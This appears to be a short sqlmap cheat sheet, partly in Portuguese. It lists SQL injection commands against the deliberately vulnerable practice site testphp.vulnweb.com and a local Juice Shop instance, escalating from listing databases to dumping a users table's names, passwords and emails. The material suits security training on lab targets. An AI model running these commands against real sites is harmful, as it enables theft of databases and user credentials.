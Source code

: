 # SQLMap

Site para testes http://testphp.vulnweb.com
```
$ sqlmap --help

$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs

$ sqlmap -u  http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart –-tables

$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users –-columns

$ sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 –-dbs -D acuart -T users -C name,pass,uname,email –-dump
``` 
Database Schema Juice-Shop
``` 
$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema

$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables

$ sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
``` 
## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
